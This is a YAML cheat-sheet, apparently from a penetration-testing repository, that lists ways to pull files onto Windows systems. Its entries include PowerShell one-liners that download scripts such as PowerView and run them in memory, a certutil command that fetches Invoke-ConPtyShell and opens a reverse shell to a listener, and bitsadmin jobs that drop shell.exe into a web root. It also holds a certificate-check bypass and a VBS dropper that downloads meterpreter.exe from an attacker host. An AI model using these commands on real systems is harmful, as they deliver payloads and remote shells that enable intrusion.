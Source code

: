 ```yaml
---
functions:
  file-transfer:
    - description: Techniques allow you to download remote files onto windows systems
      code: |
        
        POWERSHELL


        powershell -c iwr -Uri http://192.168.119.149:8000/task.xml -OutFile task.xml -usebasicparsing

        powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')"

        Download and run IN MEM ONLY:
        IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.119.149/Invoke-TM.ps1'))
        IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.119.149:8000/PowerView.ps1'))
		
		Ignore Cert Trusts - [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
		
		(New-Object System.Net.WebClient).DownloadFile('http://192.168.119.149/file.exe', 'here.exe')

        CERTUTIL


        certutil.exe -urlcache -f http://192.168.119.149:8000/task.xml task.xml
        certutil.exe -urlcache -f http://192.168.119.149:8000/Invoke-ConPtyShell.ps1 Invoke-ConPtyShell.ps1; Invoke-ConPtyShell 192.168.119.149 9999


        PS BITSADMIN


        Import-Module BitsTransfer
        Start-BitsTransfer -Source $url -Destination $output
        #OR
        Start-BitsTransfer -Source $url -Destination $output -Asynchronous


        BITSADMIN
        

        Download:
        bitsadmin /create /download myjob
        bitsadmin /addfile myjob http://192.168.119.149/shell.exe c:\xampp\htdocs\shell.exe
        bitsadmin /resume myjob
        bitsadmin /reset
        bitsadmin /complete myjob


        VBS


        see wget.vbs

        Specific File [replace filenames]:
        echo Set o=CreateObject^("MSXML2.XMLHTTP"^):Set a=CreateObject^("ADODB.Stream"^):Set f=Createobject^("Scripting.FileSystemObject"^):o.open "GET", "http://<attacker ip>/meterpreter.exe", 0:o.send^(^):If o.Status=200 Then > "C:\temp\download.vbs" &echo a.Open:a.Type=1:a.Write o.ResponseBody:a.Position=0:If f.Fileexists^("C:\temp\meterpreter.exe"^) Then f.DeleteFile "C:\temp\meterpreter.exe" >> "C:\temp\download.vbs" &echo a.SaveToFile "C:\temp\meterpreter.exe" >>"C:\temp\download.vbs" &echo End if >>"C:\temp\download.vbs" &cscript //B "C:\temp\download.vbs" &del /F /Q "C:\temp\download.vbs"


        IE


        iexplorer.exe http://192.168.119.149:8000/1.bat
        iexplorer.exe http://192.168.119.149/task.xml
resources: |
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/wget-windows

---
```

